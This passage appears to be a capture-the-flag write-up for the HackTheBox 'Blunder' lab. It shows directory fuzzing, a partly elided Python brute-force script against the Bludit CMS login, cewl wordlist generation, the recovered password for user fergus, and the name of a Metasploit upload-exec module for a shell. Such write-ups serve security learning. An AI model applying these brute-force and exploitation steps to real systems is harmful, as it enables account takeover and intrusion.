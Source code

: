 ```
cgi-bin/                [Status: 301, Size: 0, Words: 1, Lines: 1]
robots.txt              [Status: 200, Size: 22, Words: 3, Lines: 2]
robots.txt              [Status: 200, Size: 22, Words: 3, Lines: 2]
todo.txt                [Status: 200, Size: 118, Words: 20, Lines: 5]

snowscan@kali:~/htb/blunder$ curl http://blunder.htb/todo.txt
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING

```

To brute force we can use the following script: https://rastating.github.io/bludit-brute-force-mitigation-bypass/

I modified it a little bit to take a wordlist from argv:

```python
[...]
host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []

with open(sys.argv[1]) as f:
    passwords = f.read().splitlines()    
[...]
```

We can use cewl on the site to generate a wordlist.

```
snowscan@kali:~/htb/blunder$ cewl http://blunder.htb > cewl.txt
```

Next, bruteforcing...

```
snowscan@kali:~/htb/blunder$ chmod +x b.py 
snowscan@kali:~/htb/blunder$ ./b.py cewl.txt
[*] Trying: CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
[*] Trying: the
[...]
[*] Trying: character
[*] Trying: RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

## Getting a shell

We can use Metasploit to get a shell with `linux/http/bludit_upload_images_exec`
